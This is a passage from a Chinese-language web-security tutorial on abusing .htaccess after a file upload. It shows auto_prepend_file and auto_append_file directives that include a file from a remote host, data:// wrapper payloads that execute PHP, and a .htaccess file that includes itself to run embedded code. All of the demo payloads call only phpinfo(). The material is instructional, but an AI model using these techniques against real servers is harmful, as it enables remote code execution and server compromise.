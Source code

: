 ![](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/1681146119067-e2647e54-1806-42a3-b1d6-1942cfe73da7.png#alt=img)

#### 远程文件包含

PHP 的 allow_url_include 配置选项这个选项默认是关闭的，如果开启的话就可以进行远程包含。因为 allow_url_include 的配置范围为 PHP_INI_SYSTEM，所以无法利用 php_flag 指令在 .htaccess 文件中开启。这里为了演示，就先在 php.ini 中设置 allow_url_include 为 On。

.htaccess 文件中的设置为：

```php
php_value auto_prepend_file http://192.168.0.181/phpinfo.txt
或:
php_value auto_append_file http://192.168.0.181/phpinfo.txt
```

远程主机上的phpinfo.txt中的内容为：

```php
<?php phpinfo();?>
```

这样，最终目标主机上的php文件都会包含这个远程主机上的 phpinfo.txt 并解析执行：

![](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/1681146119148-e852fd72-f44c-49c1-a7d2-ed73776c3245.png#alt=img)

### 任意代码执行

#### 通过 PHP 伪协议

这里主要用的还是 auto_prepend_file 或 auto_append_file 这两个配置项。

条件：

- allow_url_fopen 为 On
- allow_url_include 为 On
- 目标环境的当前目录中存在至少一个 PHP 文件

```php
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
或:
php_value auto_append_file data://text/plian,%3c%3fphp+phpinfo()%3b%3f%3e
// 如果不使用base64加密则注意需要url编码
```

![](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/1681146119133-6f51af43-99ce-4d7e-9448-6f84288e1287.png#alt=img)

#### 通过解析 .htaccess 文件

- 方法一：通过包含 .htaccess 自身

```php
php_value auto_append_file .htaccess
#<?php phpinfo();?>
```

即让所有的 PHP 文件都包含 .htaccess 文件自身：

![](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/1681146120450-2b83fa5b-5967-4313-8f84-422c54cf7458.png#alt=img)
